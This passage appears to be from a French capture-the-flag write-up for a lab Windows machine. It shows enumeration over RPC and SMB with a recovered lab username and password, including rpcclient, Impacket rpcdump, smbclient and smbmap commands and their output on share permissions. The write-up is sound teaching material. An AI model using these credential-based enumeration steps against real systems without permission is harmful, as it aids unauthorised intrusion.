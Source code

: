 - On utilise le nom d'utilisateur `Hazard` à cause de ce qui est marqué sur le forum `Also, please create an account for me on the windows server as I need to`, on l'associe au dernier mot de passe trouvé


- Le compte Hazard peut se connecter en RPC et récupérer certaines informations

`rpcclient -U "hazard%stealth1agent" 10.10.10.149`

```
Unable to initialize messaging context
rpcclient $> srvinfo
	10.10.10.149   Wk Sv NT SNT         
	platform_id     :	500
	os version      :	10.0
	server type     :	0x9003

rpcclient $> getusername
Account Name: Hazard, Authority Name: SUPPORTDESK

rpcclient $> lookupnames Hazard
Hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```

- On peut utiliser l'outil de `Impacket` `rpcdump` :

`sudo rpcdump.py Hazard:stealth1agent@10.10.10.149`

### SMB (445/TCP)

- On utilise le nom d'utilisateur `Hazard` à cause de ce qui est marqué sur le forum `Also, please create an account for me on the windows server as I need to`, on l'associe au dernier mot de passe
trouvé


- Le compte Hazard peut se connecter en SMB, mais n'est pas administrateur car il n'a pas les droits d'écritures sur `C$` ou `ADMIN$`
- Il peut simplement lire les fichiers de `IPC$`


`sudo smbclient \\\\10.10.10.149\\IPC$ -U Hazard%stealth1agent`
```
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_INVALID_INFO_CLASS listing \*
```

`smbmap -H 10.10.10.149 -u Hazard -p stealth1agent`

```bash
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: 10.10.10.149                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```
